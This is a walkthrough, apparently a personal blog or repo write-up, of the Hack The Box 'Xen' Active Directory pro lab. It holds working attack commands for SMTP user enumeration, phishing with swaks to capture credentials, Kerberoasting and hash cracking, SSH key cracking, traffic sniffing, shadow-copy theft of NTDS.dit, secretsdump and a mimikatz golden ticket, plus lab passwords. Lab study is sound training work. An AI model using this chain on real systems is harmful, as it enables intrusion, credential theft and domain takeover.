




# XEN

# Machine info

### Xen

> By [egre55](https://app.hackthebox.com/home/users/profile/1190)\
>Humongous Retail operates a nationwide chain of stores.
> The company has reacted to several recent skimming incidents by 
> investing heavily in their POS systems. Keen to avoid any further 
> negative publicity, they have engaged the services of a penetration 
> testing company to assess the security of their perimeter and internal 
> infrastructure.
> Xen is designed to put your skills in enumeration, breakout, lateral 
> movement, and privilege escalation to the test within a small Active 
> Directory environment.
> The goal is to gain a foothold on the internal network, escalate 
> privileges and ultimately compromise the domain while collecting several
>  flags along the way.
> Entry Point: `10.13.38.12`

# Breach

## Enumeration

We shall start scanning our IP entry point for services that are currently open as shown below.

```bash
┌──(n00b㉿v1c70r)-[~/HTB Prolabs/XEN]
└─$ nmap -sCV -T4 -p- 10.13.38.12                
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-12 07:45 EAT
Nmap scan report for 10.13.38.12
Host is up (0.21s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
25/tcp  open  smtp
| smtp-commands: CITRIX, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
| fingerprint-strings: 
|   GenericLines, GetRequest: 
|     220 ESMTP MAIL Service ready (EXCHANGE.HTB.LOCAL)
|     sequence of commands
|     sequence of commands
|   Hello: 
|     220 ESMTP MAIL Service ready (EXCHANGE.HTB.LOCAL)
|     EHLO Invalid domain address.
|   Help: 
|     220 ESMTP MAIL Service ready (EXCHANGE.HTB.LOCAL)
|     DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
|   NULL: 
|_    220 ESMTP MAIL Service ready (EXCHANGE.HTB.LOCAL)
80/tcp  open  http     Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Did not follow redirect to https://humongousretail.com/
443/tcp open  ssl/http Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| ssl-cert: Subject: commonName=humongousretail.com
| Subject Alternative Name: DNS:humongousretail.com
| Not valid before: 2019-03-31T21:05:35
|_Not valid after:  2039-03-31T21:15:35
|_http-title: Did not follow redirect to https://humongousretail.com/
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_WITH_MD5
|_    SSL2_DES_192_EDE3_CBC_WITH_MD5
|_ssl-date: 2024-10-12T04:49:31+00:00; 0s from scanner time.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port25-TCP:V=7.94SVN%I=7%D=10/12%Time=6709FFB6%P=x86_64-pc-linux-gnu%r(
SF:NULL,33,"220\x20ESMTP\x20MAIL\x20Service\x20ready\x20\(EXCHANGE\.HTB\.L
SF:OCAL\)\r\n")%r(Hello,55,"220\x20ESMTP\x20MAIL\x20Service\x20ready\x20\(
SF:EXCHANGE\.HTB\.LOCAL\)\r\n501\x20EHLO\x20Invalid\x20domain\x20address\.
SF:\r\n")%r(Help,6F,"220\x20ESMTP\x20MAIL\x20Service\x20ready\x20\(EXCHANG
SF:E\.HTB\.LOCAL\)\r\n211\x20DATA\x20HELO\x20EHLO\x20MAIL\x20NOOP\x20QUIT\
SF:x20RCPT\x20RSET\x20SAML\x20TURN\x20VRFY\r\n")%r(GenericLines,6F,"220\x2
SF:0ESMTP\x20MAIL\x20Service\x20ready\x20\(EXCHANGE\.HTB\.LOCAL\)\r\n503\x
SF:20Bad\x20sequence\x20of\x20commands\r\n503\x20Bad\x20sequence\x20of\x20
SF:commands\r\n")%r(GetRequest,6F,"220\x20ESMTP\x20MAIL\x20Service\x20read
SF:y\x20\(EXCHANGE\.HTB\.LOCAL\)\r\n503\x20Bad\x20sequence\x20of\x20comman
SF:ds\r\n503\x20Bad\x20sequence\x20of\x20commands\r\n");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 271.81 seconds

```

As seen above we ahve port `25` , `80` and `443` open. Furthermore, from the smtp service, we have a host-name identified `EXCHANGE.HTB.LOCAL` we will start by visiting the website at port 80 to see how it looks and enumerate it for vulnerabilities and hidden directories.



As seen above, when we visit the page `10.13.38.12:80` we are redirected to [`https://humongousretail.com/`](https://humongousretail.com/) which is on port 443 that we initially discovered when did our nmap scan on the host. I will add the host to our `etc/hosts` file in order to be able to access the site. The site was at first inaacessible from my machine so I had to change the `security.tls.version.min` to 1 as it only accepted tls versions of `TLS 1.2` below is the guideline I used from chatgpt to change the version.

```bash
2. Modify Firefox's Security Settings:

You can configure Firefox to allow older TLS versions. Here's how:

    In the Firefox address bar, type: about:config and press Enter.
    Accept the warning message about changing advanced settings.
    Search for the preference security.tls.version.min.
    Change its value from 3 (which enforces TLS 1.2) to 1 (for TLS 1.0) or 2 (for TLS 1.1).
    Restart the browser and try accessing the site again.
```

Here is how the site looks like.


At the very bottom of the page, there is `join the team` hyperlink that redirects to a mail client with the following email as the receiver of the email [`jointheteam@humongousretail.com`](mailto:jointheteam@humongousretail.com) ,


now we have one valid email, next we shall try and perform directory bruteforce to identify hidden directories.

### Directory bruteforcing

```bash
┌──(n00b㉿v1c70r)-[~/HTB Prolabs/XEN]
└─$ gobuster dir -k -u https://humongousretail.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt  -t 30                    
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://humongousretail.com
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 158] [--> https://humongousretail.com/images/]                                                                         
/Images               (Status: 301) [Size: 158] [--> https://humongousretail.com/Images/]                                                                         
/css                  (Status: 301) [Size: 155] [--> https://humongousretail.com/css/]                                                                            
/js                   (Status: 301) [Size: 154] [--> https://humongousretail.com/js/]                                                                             
/remote               (Status: 301) [Size: 158] [--> https://humongousretail.com/remote/]                                                                         
/IMAGES               (Status: 301) [Size: 158] [--> https://humongousretail.com/IMAGES/]                                                                         
/CSS                  (Status: 301) [Size: 155] [--> https://humongousretail.com/CSS/]                                                                            
/JS                   (Status: 301) [Size: 154] [--> https://humongousretail.com/JS/]                                                                             
/jakarta              (Status: 401) [Size: 1293]

```

the `-k` flag is used to ignore ssl certificate verifications, however as seen above, we have two intersting directories identified, `/remote` and `/jakarta` 


above are the two pages that we identified while brute forcing for directories.

Next after identifying our pages, we can now try to poke around with the smtp service to be able and identify more emails.

### SMTP Service

We shall begin by enumerating the smtp service using `smtp-user-enum` tool which can easily be downloaded on linux using the command `apt install smtp-user-enum`

```bash
┌──(n00b㉿v1c70r)-[~/HTB Prolabs/XEN]
└─$ smtp-user-enum -U /usr/share/seclists/Usernames/Honeypot-Captures/multiplesources-users-fabian-fingerle.de.txt -D humongousretail.com -t 10.13.38.12 -m 50 -M RCPT
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... RCPT
Worker Processes ......... 50
Usernames file ........... /usr/share/seclists/Usernames/Honeypot-Captures/multiplesources-users-fabian-fingerle.de.txt
Target count ............. 1
Username count ........... 26324
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ humongousretail.com

######## Scan started at Sat Oct 12 09:26:13 2024 #########

10.13.38.12: it@humongousretail.com exists
10.13.38.12: legal@humongousretail.com exists
10.13.38.12: marketing@humongousretail.com exists
10.13.38.12: sales@humongousretail.com exists
10.13.38.12: SALES@humongousretail.com exists
######## Scan completed at Sat Oct 12 09:37:59 2024 #########
5 results.

26324 queries in 706 seconds (37.3 queries / sec)
zsh: unknown file attribute:  
                              
```

From the command above `-m` flag is used to specify maximum number of processes, `-M` is used to specify method to use for username guessing, in our case we used to guess for recepients’ emails, `-t` flag is used to specify our target, `-D` is used to specify the domain we want to try our enumeration on, `-U` is used to specify a wordlist for usernames we want to test if they exist.

As seen above we have found 5 users, we can try and perform some phishing attacks to get if we can get creds of the users we found.

### Creds phishing

In this section we shall perform a phishing campaign using [`swaks`](https://github.com/jetmore/swaks/blob/develop/doc/base.pod) tool,Swiss Army Knife SMTP, the all-purpose SMTP transaction tester, I will be using one email at a time to test for a user who will click our phishing email link. We shall set up a python server or even use netcat to listen on any interactions with our email nad perfrom a phish attack with swaks as shown below.

```bash
┌──(n00b㉿v1c70r)-[~/HTB Prolabs/XEN]
└─$ swaks --to sales@humongousretail.com --from it@humongousretail.com --header "Subject: Credentials / Errors" --body "citrix http://10.10.15.13/" --server humongousretail.com
=== Trying humongousretail.com:25...
=== Connected to humongousretail.com.
<-  220 ESMTP MAIL Service ready (EXCHANGE.HTB.LOCAL)
 -> EHLO v1c70r
<-  250-CITRIX
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> MAIL FROM:<it@humongousretail.com>
<-  250 OK
 -> RCPT TO:<sales@humongousretail.com>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Sat, 12 Oct 2024 09:52:22 +0300
 -> To: sales@humongousretail.com
 -> From: it@humongousretail.com
 -> Subject: Credentials / Errors
 -> Message-Id: <20241012095222.079042@v1c70r>
 -> X-Mailer: swaks v20240103.0 jetmore.org/john/code/swaks/
 -> 
 -> citrix http://10.10.15.13/
 -> 
 -> 
 -> .
<-  250 Queued (9.828 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.

```

Above shows the output when we exxecute `swaks --to [sales@humongousretail.com](mailto:sales@humongousretail.com) --from [it@humongousretail.com](mailto:it@humongousretail.com) --header "Subject: Credentials / Errors" --body "citrix [http://10.10.15.13/](http://10.10.15.13/)" --server [humongousretail.com](http://humongousretail.com/)` 

below shows the output of our listener after we executed the phish attack using the same email three times, as I came to realise the citrix server can only be accessed with one person at a time

```bash
┌──(n00b㉿v1c70r)-[~/HTB Prolabs/XEN]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.13.38.12 - - [12/Oct/2024 09:50:21] code 501, message Unsupported method ('POST')
10.13.38.12 - - [12/Oct/2024 09:50:21] "POST /remote/auth/login.aspx?LoginType=Explicit&user=jmendes&password=VivaBARC3L0N@!!!&domain=HTB.LOCAL HTTP/1.1" 501 -
10.13.38.12 - - [12/Oct/2024 09:51:19] code 501, message Unsupported method ('POST')
10.13.38.12 - - [12/Oct/2024 09:51:19] "POST /remote/auth/login.aspx?LoginType=Explicit&user=pmorgan&password=Summer1Summer!&domain=HTB.LOCAL HTTP/1.1" 501 -
10.13.38.12 - - [12/Oct/2024 09:52:16] code 501, message Unsupported method ('POST')
10.13.38.12 - - [12/Oct/2024 09:52:16] "POST /remote/auth/login.aspx?LoginType=Explicit&user=awardel&password=@M3m3ntoM0ri@&domain=HTB.LOCAL HTTP/1.1" 501 -
10.13.38.12 - - [12/Oct/2024 09:52:37] code 501, message Unsupported method ('POST')
```


```bash

    jmendes / VivaBARC3L0N@!!!
    awardel / @M3m3ntoM0ri
    pmorgan / Summer1Summer!

```

the page `/remte` required as to citrix to our machine, I downloaded the 64-bit tarball package from [here](https://www.citrix.com/en-gb/downloads/citrix-receiver/linux/receiver-for-linux-latest.html) and install with the following commands.

```bash
┌──(n00b㉿v1c70r)-[~/HTB Prolabs/XEN]
└─$ tar -xf linuxx64-13.10.0.20.tar.gz   

┌──(n00b㉿v1c70r)-[~/HTB Prolabs/XEN]
└─$ ls
PkgId     linuxx64-13.10.0.20.tar.gz  pro_labs_V1C70Rn00b.ovpn
linuxx64  nls                         setupwfc
                                                                                 
┌──(n00b㉿v1c70r)-[~/HTB Prolabs/XEN]
└─$ ./setupwfc 
Citrix Receiver for Linux 13.10.0 setup.

Copyright 1996-2018 Citrix Systems, Inc. All rights reserved.
Copyright (c) 1986-1997 RSA Security, Inc. All rights reserved.

Citrix, Independent Computing Architecture (ICA), Program Neighborhood,
MetaFrame, and MetaFrame XP are registered trademarks and Citrix Receiver,
Citrix XenApp, XenDesktop, Citrix Presentation Server, Citrix Access Suite,
and SpeedScreen are trademarks of Citrix Systems, Inc. in the United States
and other countries.

Microsoft, MS, MS-DOS, Outlook, Windows, Windows NT, and BackOffice are
either registered trademarks or trademarks of Microsoft Corporation in
the United States and other countries.

All other Trade Names referred to are the Servicemark, Trademark,
or Registered Trademark of the respective manufacturers.

User install mode.

Select a setup option:

 1. Install Citrix Receiver for Linux 13.10.0
 2. Remove Citrix Receiver for Linux 13.10.0
 3. Quit Citrix Receiver for Linux 13.10.0 setup

Enter option number 1-3 [1]: 1

Please enter the directory in which Citrix Receiver for Linux is to be installed.
[default /home/n00b/ICAClient/linuxx64] 
or type "quit" to abandon the installation: 

The parent directory /home/n00b/ICAClient does not exist.
Do you want to create it? [default y]: y

You have chosen to install Citrix Receiver for Linux 13.10.0 in /home/n00b/ICAClient/linuxx64.

Proceed with installation? [default n]: y

Installation proceeding...

Checking available disk space ...

        Disk space available 36231080 K 
        Disk space required 51234 K

Continuing ...
Creating directory /home/n00b/ICAClient/linuxx64
Core package...
Setting file permissions...
Integrating with browsers...

Integration complete.
Do you want GStreamer to use the plugin from this client? [default y]: y
USB support cannot be installed by non-root users. Run the installer as root to access this install option.

Select a setup option:

 1. Install Citrix Receiver for Linux 13.10.0
 2. Remove Citrix Receiver for Linux 13.10.0
 3. Quit Citrix Receiver for Linux 13.10.0 setup

Enter option number 1-3 [3]: 3
Quitting Citrix Receiver for Linux 13.10.0 setup.

```

With that installed, we can go back to our website /remote page and try to use one of the creds we found to login.


I used pmorgan’s creds to login to the platform.


and we got our flag when we visited the explorer.


# Deploy

After going through the workstation, I realized there is no windows defender or antivirus program on this machine, therefoe we can simply get a meterpreter session.  It was a Windows 7 box so I gave a shot to `local_exploit_suggester` module of metasploit. As it suggested, you can easily elevate privileges with always_install_elevated module.


# Ghost

At this point, I’ve already owned 3 machines and started mapping the lab.

Arp entries gave me some idea about the other machines.


My IP address was 172.16.249.205 (with a NAT address of 10.13.38.15), and the other two Windows 7 machines had IPs of 172.16.249.204 (10.13.38.14) and 172.16.249.203 (10.13.38.13).

Fortunately, both the Citrix server and Domain Controller (DC) were resolved via DNS. The DC's IP address was 172.16.249.200


citrix was 172.16.249.201 - 10.13.38.12(our entry point)


I was left with the Netscaler at 172.16.249.202. Typically, UNIX systems have a TTL (Time to Live) of 64 when responding to pings. Knowing that Netscaler is based on FreeBSD, which also has a TTL of 64, this further supported my assumption.


### Kerberoasting

After spending some time and enumeration I saw some of the users had SPNs.

`Import-Module .\GetUserSPNs.ps1`


Below I will try and get the hash using kerberoasting technique.

```bash
Import-Module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -OutputFormat Hashcat
```


My first attempts to crack the hash failed. After trying a few wordlists, I tried applying some rule files, and it broke:

```bash
hashcat -a 0 -m 13100 GetUserSPNs.out /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/dive.rule --force

$krb5tgs$23$*mturner$HTB.LOCAL$MSSQLSvc/CITRIXTEST.HTB.LOCAL~1433*$2c25cd994272360eeee9720fcf70b88e$f42d18b44f7bf2e242285f39370da356c9784f4ec96123b5d47766caebb6f0dae5350b58df4cd2c53c2c6671b7d5d425937656e01670134ee858d21b1515121adb29ba6de2fabab4f3ff139369136d3772e11d34c4979a0b5c3f65ff9648b26621d915352fead31a93e2dd01f92f1d329aef924e5969159cde84b764e4b45d01f162a92b667080983ed636f7a154fe4e63255e3d50b33c0fb8b95f0cd70f1bea102c0affcb89ba987bd5a9316a9c3254c93fabf71e584f5eaa726f3a7922b97b47e2bb16f8fb0bb2e73293d3f664e4e85bd3c6b995d13e5df3a1406a9395f7b02777e27ccd433f0fc0d006740ab92d9c13d6f0e91083b764b233783fbe490de230ec13d1c1ab1c63ecfc0248e4bca5050f7706d17ee827caf8377dc70c9df35cb81901542778f7c56aedd7f6491fb1c4e5f47990b95d2999e8df1e884be2023c0289a00f8a68bb12767f85dd958c2b2ae97cd7a5599503b064d7a5074c4932d443a141421941ba4193c08337dc95632d4e88282a6e789925bd4709e00f91420c18e8b6ac0b1bf6798fa719dd863c52b00631c4eedeb9718710f6c14625dd9b4ed71b7a3c09e7c353d44f215f496f2bab37f220e4f60637d5331360e13dcc216d990d1ae80705a8ec053427ab179b5160cdc1b39a26c4700b69c66fd11b53b6e942d0abf54d96f61eb5715c4f58a1246fa86f4a232f36d6989d783909bc28bfd8b836d6250a9f1a5350046a004a452da54d7c48e73998e0a2b457dac1f5687c70441974a27391bb9e31ea4510de4c32ef76a4287ae4929da9ff77cd1c18df4bee33115f356e2df9cee980e38ee644b4f1b9a7da38df0c9bb37d6c9f9fc4d79f407f8919c6b8d9fcba2779f8b91231a8aca7ae7b82e20341f5e5ac29f601d1e112c082128cd8a7be031b2279460833d4b03c2d4018bd1be0ca7b6578933c9142e653e2a931ab56516de8f1fd66a46f6834aa15aa4e4213265011cf7911325a281694b1f5fe040c13d1cc076efa27657deac7661a0455e86f78d5473b63324a1a10247ace4c64a4f37f17c6c671e9a97d4559a1a432aeea2275d7ea803e255add1daae32105c0337da391486157adb645d2faf0a138f63b0a1d7d739d11cbb53013ababb1cbf8d11c71bc143abf200466288197a6714d76ca0e538c25c8563e00acaa020033e3800d0c46cffc164a7a7bdc7851edcc08971328a59f3830158b9146027ccbe4d41df15f5834eff7dded87c4fd40b9aaf287a0d1a8c06cf71c82981ae6832a04ec30499570fb5842416a3202521095d9f337d7bfb1805ba18b7bd50396:4install!                                                                               

Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 TGS-REP etype 23
Hash.Target......: $krb5tgs$23$*mturner$HTB.LOCAL$MSSQLSvc/CITRIXTEST....d50396
Time.Started.....: Mon May 13 17:40:49 2019 (6 hours, 49 mins)
Time.Estimated...: Tue May 14 00:30:34 2019 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Mod........: Rules (/usr/share/hashcat/rules/dive.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   348.1 kH/s (14.54ms) @ Accel:8 Loops:4 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 8733004800/1421327732110 (0.61%)
Rejected.........: 0/8733004800 (0.00%)
Restore.Point....: 87552/14344385 (0.61%)
Restore.Sub.#1...: Salt:0 Amplifier:37644-37648 Iteration:0-4
Candidates.#1....: temperaas1ture -> hako03

Started: Mon May 13 17:40:36 2019
Stopped: Tue May 14 00:30:36 2019
```

creds `mturner / 4install!` 

Although we are already system at the three VDESKTOP machines, I start poking at CITRIX. The creds from kerberoast are good, but not enough to give a shell.

```bash
proxychains crackmapexec smb 172.16.249.201 -u mturner -p '4install!'
ProxyChains-3.1 (http://proxychains.sf.net)
SMB         172.16.249.201  445    CITRIX           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 (name:CITRIX) (domain:htb.local) (signing:False) (SMBv1:True)
SMB         172.16.249.201  445    CITRIX           [+] htb.local\mturner:4install!
```

Let’s list the shares on the host:

```bash
C:\>net view /all \\citrix
Shared resources at \\citrix

Share name  Type  Used as  Comment        

-------------------------------------------------------------------------------
ADMIN$      Disk           Remote Admin   
C$          Disk           Default share  
Citrix$     Disk                          
IPC$        IPC            Remote IPC     
ISOs        Disk                          
ISOs-TEST   Disk                          
The command completed successfully.
```

on the citrix share, i found a flag.

```bash
C:\>net use \\citrix\citrix$ /u:mturner 4install!
The command completed successfully.

C:\>dir \\citrix\citrix$
 Volume in drive \\citrix\citrix$ has no label.
 Volume Serial Number is 244B-E63F

 Directory of \\citrix\citrix$

05/08/2019  06:12 PM    <DIR>          .
05/08/2019  06:12 PM    <DIR>          ..
02/12/2019  07:21 PM           997,001 Deploying-XenServer-5.6.pdf
03/31/2019  11:25 AM                20 flag.txt
05/08/2019  06:21 PM             1,486 private.ppk
02/12/2019  07:21 PM         1,747,587 XenServer-5-6-SHG.pdf
               4 File(s)      2,746,094 bytes
               2 Dir(s)  25,994,129,408 bytes free
               
C:\>type \\citrix\citrix$\flag.txt
XEN{[REDACTED]}
```

# Camouflage

An unprivileged user on the netscaler was not able to drop to shell and it was pretty obvious that this ppk file had to be cracked.

This part was frustrating because I couldn’t manage to crack the ppk file for a long time. A keyboard walked wordlist was required.

Clone the repository from here and generate a wordlist based on base chars, keymap and route. [https://github.com/hashcat/kwprocessor](https://github.com/hashcat/kwprocessor)

```bash
./kwp basechars/full.base keymaps/en-us.keymap routes/2-to-16-max-3-direction-changes.route
/usr/sbin/putty2john private.ppk > private.ppk.hash
john private.ppk.hash --wordlist=/opt/kwprocessor/kw-list-small.txt

```

Password:`=-09876567890-=-` 

It can be simply converted to OpenSSH private key,`puttygen private.ppk -O private-openssh -o private.rsa` 

Now we can ssh. (note that Netscaler’s root user is nsroot)

```bash
proxychains ssh -i ~/id_private_xen.pem nsroot@172.16.249.202
ProxyChains-3.1 (http://proxychains.sf.net)
###############################################################################
#                                                                             #
#        WARNING: Access to this system is for authorized users only          #
#         Disconnect IMMEDIATELY if you are not an authorized user!           #
#                                                                             #
###############################################################################

Enter passphrase for key '/root/id_private_xen.pem':
Last login: Wed May  8 23:23:15 2019 from 172.16.249.201
 Done
> 
```

we are still at the netscaler prompt, but this user has access to the `shell` command

```bash
> shell
Copyright (c) 1992-2013 The FreeBSD Project.
Copyright (c) 1979, 1980, 1983, 1986, 1988, 1989, 1991, 1992, 1993, 1994
        The Regents of the University of California. All rights reserved.

root@netscaler#
```

This box isn't finished yet. Now we move on to post-exploitation.

Let's begin by checking the logs

```bash
cd /var/log
gunzip -d *.gz

cat * | grep XEN
$ /login/do_login?LoginType=Explicit&username=cmeller&password=XEN%7Bbu7_ld4p5_15_4_h455l3%7D
^ When I first tried it was on the logs but second time I tried, it wasn't there.

```

I noticed from the logs that the `netscaler-svc` service was constantly interacting with the Citrix server and the Netscaler. Monitoring the traffic seemed like a good next step.

```bash
tcpdump -s 65534 -w out.pcap
proxychains scp -i private.rsa nsroot@172.16.249.202:/root/out.pcap .
wireshark out.cap
```

we got our flag on packet number 10


There was also netscaler-svc’s password in the tcpdump capture too. I actually saw this after I finished the lab


# **Doppelgänger**

At this point, I had already gathered numerous credentials and gained access to most of the boxes.

We shouldn't be too far off, right?

As the name *Doppelgänger* suggests, there might be an account using the same password as one of those we've already found.


`proxychains xfreerdp /v:172.16.249.200 /u:backup-svc /p:'#S3rvice#@cc` 


# Owned

Running BloodHound might have been a good idea at this point, but everything seemed fairly straightforward, so I opted not to use it. Instead, I focused on the `backup-svc` user, who had some interesting privileges I could exploit—specifically, the `SeBackupPrivilege`.


With the `SeBackupPrivilege`, we can create a shadow copy of the OS and access sensitive files like `SYSTEM`, `SECURITY`, and `NTDS.dit`.

I used the following tool to leverage this privilege: [SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege).

After creating the shadow copy, I mounted it to the G: drive for further exploration.

```bash
diskshadow.exe
set context persistent nowriters
add volume C: alias morph3
create
expose %morph3% G:

```



To exploit my `SeBackupPrivilege`, I utilized the DLLs mentioned earlier to enable the privilege.

```bash
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Set-SeBackupPrivilege
```


```bash
Copy-FileSeBackupPrivilege <source> <target>

To transfer files, I shared 2 directories on both hosts to move back and forth
On VDesktop-3
net use R: \\172.16.249.200\C$ /user:backup-svc #S3rvice#@cc

On DC
net use F: \\172.16.249.205\C$ /user:pmorgan Summer1Summer!

```



I decided to dump the secrets locally on my machine.

```bash
python secretsdump.py -system /root/Desktop/htb/endgame/xen/sixth_flag/SYSTEM -ntds /root/Desktop/htb/endgame/xen/sixth_flag/ntds.dit LOCAL
```



Next we shall get the DC’s ID

```bash
.\PsGetsid.exe -accepteula \\dc.htb.loca
```


We now forge the ticket.

```bash
mimi32.exe
kerberos::golden /user:krbtgt /domain:htb.local /krbtgt:3791ca8d70c9e1d2d2c7c5b5c7c253e8 /sid:S-1-5-21-1943675722-3306049422-2153511175
kerberos::ptt ticket.kirbi
```


We can test if it works.

```bash
dir \\dc.htb.local\c$

type \\dc.htb.local\c$\Users\Administrator\Desktop\flag.txt
 XEN{[REDACTED]}
```